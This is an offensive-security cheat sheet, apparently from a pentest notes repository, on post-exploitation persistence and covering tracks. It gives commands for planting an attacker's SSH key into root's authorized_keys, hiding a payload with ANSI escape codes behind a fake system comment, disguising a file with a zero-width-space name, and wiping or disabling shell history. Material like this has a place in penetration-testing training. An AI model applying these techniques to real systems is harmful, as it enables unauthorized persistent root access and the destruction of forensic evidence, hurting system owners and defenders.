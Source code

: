 # ⚠ SSH persistence passwordless (Not OPSEC)

```
kali@kali:~$ ssh-keygen

kali@kali:~$ cat:~/.ssh/id_rsa.pub
```

in the target shell type:

```
mkdir /root/.ssh
echo “rsa public key from kali machine” > /root/.ssh/authorized_keys
```

now login without password:

```
kali@kali:~$ ssh root@sandbox.local
```

### Tips

Hide the payload with ANSI chars, the following chars will clear the terminal when using cat to display the content of your payload.

```
#�[2J�[2J�[2J�[2H�[2A# Do not remove. Generated from /etc/issue.conf by configure.
```

Hide in plain sight using zero width spaces in filename.

```
touch $(echo -n 'index\u200D.php') index.php
```

Clear the last line of the history.

```
history -d $(history | tail -2 | awk '{print $1}') 2> /dev/null
```

Clear history

```
[SPACE] ANY COMMAND
or
export HISTSIZE=0
export HISTFILESIZE=0
unset HISTFILE; CTRL-D
or
kill -9 $$
or
echo "" > ~/.bash_history
or
rm ~/.bash_history -rf
or
history -c
or
ln /dev/null ~/.bash_history -sf
```

The following directories are temporary and usually writeable

```
/var/tmp/
/tmp/
/dev/shm/
```

